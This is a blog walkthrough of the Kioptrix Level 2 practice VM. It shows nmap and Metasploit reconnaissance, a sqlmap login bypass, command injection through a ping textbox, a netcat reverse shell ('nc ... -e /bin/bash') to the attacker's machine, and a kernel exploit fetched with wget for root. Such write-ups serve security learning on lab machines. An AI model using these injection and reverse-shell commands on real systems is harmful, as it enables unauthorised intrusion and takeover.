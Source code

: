 ```yaml
---
layout:		post
title:  	"Kioptrix Level 2"
date: 		2018-02-26 14:00:00 +0800
summary:	Today we are going to solve Kioptrix Level 2. First we need to... <a href="https://blkcoffee.github.io/kioptrix/2018/02/26/kioptrixLvl2/">Read more...</a>
categories:	kioptrix
---
```

Today we are going to solve Kioptrix Level 2. First we need to download the VM from the kioptrix website, add it to VMware and power it up!

We are met with this image:

![Kioptrix Login](/assets/kioptrix-start.png){:class="img-responsive"}

Let's get started. From my Kali machine I'm going to run an nmap scan, this will scan the entire network and we should be able to find the IP address of the Kioptrix machine. 

![nmap scan](/assets/nmap scan.PNG){:class="img-responsive"}

The nmap scan has brought back a number of open ports. The most interesting here would be the port 3306, the MySQL port. Let's look a bit further into that.

To do this we're going to use Metasploit. First we need to find out what version of MySQL is on the Kioptrix machine. We will do this with the following

{% highlight ruby %}
use auxiliary/scanner/mysql/mysql_version
#We then need to set a couple of parameters
set rhosts 192.168.1.101 #	This is the Kioptrix Machine IP 
			 #	that we found in the nmap scan
set rport 3306 #This is the open mysql port
run
{% endhighlight %}
<br>
<br>
![mysql](/assets/mysql version result.PNG){:class="img-responsive"}
<br>
<br>
Well, that didn't really get us anywhere. At least we know it is mySQL. Let's launch a browser, go to the IP address and see what we are greeted with. 
<br>
<br>
![landing](/assets/web landing page.PNG){:class="img-responsive"}
<br>
<br>
A login page. Let's use burpsuite, intercept the login and see what we can find out. 
<br>
<br>
![burpsuite](/assets/burpsuite.PNG){:class="img-responsive"}
<br>
<br>
Burpsuite has intercepted the login! Let's use this with sqlmap to try and get a workaround. 
<br>
In terminal we write:
<br>
{% highlight ruby %}
sqlmap -u "http://192.168.1.101/index.php" --data "uname=admin&psw=password&btnLogin=Login" --level=5 --risk=3
{% endhighlight %}
<br>
<br>
-u is for URL<br>
--data this is where we put the data from our burpsuite intercept<br>
--level is level of tests to perform from 1-5, may as well max it out<br>
--risk is risk of tests 1-3, same again, max it out. As this isn't a real-world test we don't have to worry too much about the risk or level of attacks. <br>
<br>
![sqlmap complete](/assets/sqlmap-complete.PNG){:class="img-responsive"}
<br><br>
sqlmap has completed and found multiple injection points. Let's just use the username POST injection, we can do this in burpsuite by replacing the original code with the injection code. 
<br><br>
Now we are at this page:
<br>
![web after login](/assets/webpage after login.PNG){:class="img-responsive"}
<br><br>
What we need to now do is see if this textbox will run extra commands for us. Let's ping the Kioptrix machine and add {% highlight ruby %}; ls -l{% endhighlight %} and see if it brings back a list of files and owner of those files.

Sure enough, it does! Let's use another handy tool bundled in Kali, netcat

First we need to work out the location to put netcat on the Kioptrix machine. For this we use "; find / -name nc 2>/dev/null" into the webpage. This brings back "/usr/local/bin/nc". 

In Terminal, we get netcat listening with {% highlight ruby %}nc -lvp 1111{% endhighlight %}<br><br>I used port 1111, you can use whatever port you wish. 
<br>
Then back in the webapp textbox we need to input<br>{% highlight ruby %}; /usr/local/bin/nc 192.168.1.5 -e '/bin/bash' 1111{% endhighlight %}
<br><br><br>
Now we've got a netcat connection going! Let's get some more information about the kernel. A quick {% highlight ruby %}uname -a{% endhighlight %} and we now know it's Linux Kernel 2.6.9-55 - Let's google an exploit
<br>
![uname](/assets/kernel.PNG){:class="img-responsive"}
<br><br>
http://www.exploit-db.com/exploits/9542/
<br><br>
This exploit seems like it's gonna work for us! It's been tested on a similar machine to this one. 

Let's save that to "/var/www/html", start Apache on our Kali machine and download the exploit through the session we created with netcat.

Okay, to download it let's first cd to /tmp. Now we can wget from our apache server, compile and execute!

![root](/assets/root.PNG){:class="img-responsive"}

Done! We are now root. I'll just change the password and login via the VM.

![have root](/assets/haveroot.PNG){:class="img-responsive"}


Thanks guys!
